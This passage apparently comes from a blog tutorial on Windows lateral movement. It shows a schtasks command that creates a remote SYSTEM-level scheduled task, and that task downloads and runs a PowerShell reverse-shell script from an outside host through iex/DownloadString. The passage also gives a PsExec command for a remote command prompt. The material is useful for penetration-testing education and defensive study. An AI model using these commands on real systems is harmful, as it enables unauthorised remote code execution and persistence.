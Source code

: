 
## Task Scheduler

Requires Admin | Local Group Membership | ATTACK ID
--- | --- | ---
Yes | `Administrators` | N/A

If we have local admin access to a remote system, it is possible to create scheduled tasks into the target machine. We will use the builtin utility `schtasks.exe`:

```
 schtasks /create /S TARGET /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
```

The following parameter have been used:

* `/S TATGET` to specify the remote servers
* `/SC Weekly` to set the interval of when the task should be executed
* `/RU` the user the remote task is going to run as
* `/TN` the name of the task
* `/TR` the command to execute

In order to run the previously created task, it is possible to use this command:

```
schtasks /Run /S TARGET /TN "STCheck"
```

## PsExec

Requires Admin | Local Group Membership | ATTACK ID
--- | --- | ---
Yes | `Administrators` | N/A

To understand how exactly PsExec works is outside of the scope of this post, a good reference can be found [here](https://adamtheautomator.com/psexec-ultimate-guide/amp/?__twitter_impression=true).

In order to execute commands with PsExec, the following precondition must be met:

* `File and Printer sharing` must be enabled;
* The `ADMIN$` share should be available.

To launch an interactive cmd prompt using PsExec it is possible to use the following command:

```
psexec.exe -accepteula \\TARGET cmd.exe
```

![](/assets/2019-10-04-lateral-movemen-megaprimer/86b3ceb1e0b10a31bdb4832124e5e6cd.png)
